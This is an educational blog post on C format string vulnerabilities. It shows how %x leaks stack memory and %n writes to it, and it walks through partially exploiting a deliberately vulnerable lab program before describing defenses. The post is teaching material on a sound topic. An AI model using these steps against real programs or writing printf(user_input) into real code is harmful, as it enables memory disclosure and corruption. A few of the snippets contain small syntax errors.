 ```yaml
---
title: "Format Strings"
date: 2019-03-22 09:00:00
categories: information 
layout: post
---
```


One of the most common functions used in c is `printf`. In introductory Systems
courses we learn how to read input from a file or stdin, perform some string
manipulation, and display the result on the command line using `printf`. Most
of the time you've used format characters such `%s` for strings, `%d` for
integers, `%f` for floats. As well, the number of variables to print matches
one-to-one with the number of format characters in the string. When there
are more format characters than variables you can accidently (or purposely)
read and write into memory. More specifically, on the stack. Variables in
a C program are placed on the stack. `printf` and other variations of this
function (see `man 3 printf` for more information) read said variables from the
stack and substitutes them for the respective format character. Consider,

```c
char buffer[64];

buffer = "%s %s";

printf(buffer);
```

The function `printf` will read from the stack and interpret the bytes as
a string (an array of char with a null terminator at the end). Most likely,
this will cause a segmentation fault. Now, if instead we used the format
character `%x`, which prints out hexadecimal values (addresses) we can get
something more useful. We could read the addresses and values (in hexadecimal)
that are placed on the stack. We can gain sensitive information from a program
that wasn't previously available.

`printf` has another interesting format character called `%n` which writes the
number of printed characters before `%n` is seen to an address. Which address 
are we writing to? For example, consider the code

```c
int value;
printf("what's my age again? %n \n", &value);
printf(value = %d\n", value)
```

and the output of this would be

```c
what's my age again?  
value = 21
```

In the previous example we provided the address of the value variable but what
if non is given explicitly? Well, `printf` will try to use the next address on
the stack and write to it most likely ending in a segmentation fault. This
leads to 2 questions: where is user input placed in memory? and can we point
where `%n` writes to? The answer of the first question is it depends. The
C language does not define where in memory command line arguments are stored.
Although, information is normally stored on the stack. You can easily find this
out by using a sequence of characters that you can easily recognize as input to
the program you are testing. For instance you could use as input `AAAA %x %x %x
%x BBBB` since you'll quickly recongize that `0x41` is hex for A and `0x42` is
hex for B. If user input is stored on the stack then we can pass in the address
we want `%n` to write to. This could lead to overwriting a variable on the
program leading unauthorized access or we could even overwrite the global
offset table to jump to functions and code sections we weren't supposed to. 


### Example

Consider the following C code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

We quickly can tell that the problem lies with `printf(string)` since we're
providing input from the command line. Lets try running the problem using
format characters we just learned about. So if we run 

`$ ./binary "%x %x %x %x"`

we get the result

`1 c2 f7ea48fb ffffd5ee`

which is interesting, but does not tell us if our input is on the stack. We probably
need to print out more of the stack. So we run the following

```./format1 "`python -c "print  'AAAA' + 'BBBB' +'%x ' * 200"`" | grep 41```

and we see that the output includes

`41410031 42424141 78254242 20782520 25207825 78252078 20782520`

that's definitely our input with a mask. Now we want to find the address of the
variable target so we can overwrite its result `%n` since we know this variable
lives on the stack. We get its address `0804a02c` by doing

`objdump -t binary | grep target`

Now lets add our address to our input string and we must not forget about
endianness. So we do 

```./binary "`python -c "print  'AAAAAAAA' + '\x2c\xa0\x04\x08' +'%x ' * 250"`"```

We can see a bunch of addresses and in the middle we get

`41414141 41414141 804a02c 25207825 78252078`

Now I will leave up to you find the right padding needed so when you add `%n`
to the end of you input string the address in question is `0x0804a02c`. This
will change the value of the `target` and thus execute code previously not
accesible to us.


### Defense

You want to sanitize user input before using it. The simplest approach in C to
avoid this type of attack is to use a format character as well! Instead of 

```c
printf(user_input)
```

we should do

```c
printf("%s", user_input)
```

If the user passed format characters as their input it will simply interpret read
it as a string (due to `%s` being used). No sensitive information is leaked and no
values on the stack are overwritten. As well, more modern compilers check for
unsafe uses of format strings.

There are existing defenses like stack canaries and ASLR to prevent a malicious user
from exploiting your program. Stack canaries could prevent somebody from using
`%n` to overwrite data on the stack. However, if you don't sanitize your user
input it could leak information about key objects in memories and thus help
an attacker overcome ASLR.

### Extra Examples

To see a more in depth walkthrough of the ideas from this article try following along with these writeups:

1. [format3](/writeup/format3_writeup.html)

### Sources

1. https://www.cs.virginia.edu/~ww6r/CS4630/lectures/Format\_String\_Attack.pdf
2. https://stackoverflow.com/questions/18681078/in-which-memory-segment-command-line-arguments-get-stored
3. https://liveoverflow.com/binary\_hacking/protostar/format4.html
4. https://liveoverflow.com/binary\_hacking/protostar/format1.html
